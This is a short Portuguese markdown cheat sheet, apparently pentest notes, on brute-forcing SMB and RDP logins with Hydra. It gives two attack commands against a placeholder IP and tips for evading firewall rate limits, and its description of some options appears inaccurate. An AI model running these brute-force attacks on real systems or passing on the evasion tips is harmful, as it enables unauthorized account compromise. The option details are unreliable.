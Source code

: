 <h1 align="center"> Brute force com Hydra</h1>
<hr>

```sh
hydra -v -l rogerio -P senhas.txt <IP> smb
hydra -v -l rogerio -P senhas.txt <IP> rdp
```

## Dicas

Uma opcao que a gente usa bastante seria a opcao `-S` para voce colocar uma porta de origem
a opcao `-T` para tasks ou quantidade de threads paralelas. A opcao `-W` para definir o tempo esse seria um bom caso para bypassar um controle de firewall ou qualquer mecanismo de defesa que bloqueia uma grande quantidade de requisicao em pouco tempo.